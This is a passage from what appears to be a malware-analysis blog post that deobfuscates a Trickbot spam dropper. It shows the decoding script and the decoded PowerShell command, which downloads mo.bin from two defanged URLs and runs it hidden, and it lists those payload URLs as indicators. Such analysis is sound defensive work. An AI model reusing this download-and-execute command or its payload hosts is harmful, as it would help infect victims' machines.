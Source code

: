 ```
var dec5 = DecodeString("%imi$$}:jphop gof/ijjt$$qp)gq|")
var dec6 = DecodeString("%imi$$:-poa;")
var dec7 = DecodeString("{$$xppgr[[jh'hohjfso/d(z%/f)[)f%'d($$}-/hp/x;")
var dec8 = DecodeString("{$$xppgr[[hasxhj%/f%d([)f%'d($$}-$]]tetfsp ldbit i(/fkd(zthj/ddt ldbighpxtqp)gq|")
var dec9 = DecodeString("%'hp:tjphop gof/ijjt$qp)gq|")
var dec10 = DecodeString("%'hp$t ud(kfujpabitxdkki(]")
var text = "";
text = test2(text, dec1, name1);
text = test2( text, dec2, name2);
text = test2( text, dec3, name2);
text = test2( text, dec4, name3);
text = test2( text, dec5, name3);
text = test2( text, dec6, name1);
text = test2( text, dec7, name1);
text = test2( text, dec8, name4);
text = test2( text, dec9, name4);
text = test2( text, dec10, "");
console.log(text);

```

<br>For the newest Trickbot spamwave (2018-07-02) I had to adjust the _global_text_ variable to the following value because they chose an URL with numbers in it:

```
var global_text = "qwertyuiopasdfghjklzxcvbnm/\"'()[]${.},\;-%_:|1234567890";
```

<br>If we not put the code into [_JsFiddle_](https://jsfiddle.net/) and execute it we should get the following console output which contains the two payload URL's we were looking for:<br><br>

{% highlight bash %}
md|/c|powershell|"'powershell|""function|-wurmxdpnt)string]|q-xqdx$(newqobject|system.net.webclient
[.downloadfile(q-xqdx''qtmpq;-hrsiaabbexe''[,startqprocess|''qtmpq;-hrsiaabbexe'',{try$-wurmxdpnt''
hXXp://sabarasourcing[.]com/mo.bin''[{catch$-wurmxdpnt''hXXp://ayuhas[.]co.in/mo.bin''
[{'""|_|outqfile|qencoding|ascii|qfilepath|qtmpq;-wfebswjqbat,|startqprocess|'qtmpq;-wfebswjqbat'|qwindowstyle|hidden"-
{% endhighlight %}

<br>Payload URL's:
>hXXp://sabarasourcing[.]com/mo.bin
>hXXp://ayuhas[.]co[.]in/mo.bin

>pro memoria..

- I think it's quite interesting to reverse engineer such droppers but I'm not sure if this write-up is long lasting as they would only have to change a few lines to mess up the whole process.
- Besides this reverse engineering I think a very good indicator to find spam mails is the age of a containing domain. If the domain is that young the chances are very high that it is spam.. and here we had the proof twice in the last two days ;-)
- If the same group uses the same method as they did today it would probably be possible to just exchange the arguments of the _DecodeString_ function and get the new URL's very fast.. let's find out.
- Small Tool to extract Payload URLs on [_JsFiddle_](http://jsfiddle.net/5q32cfp6/136/)
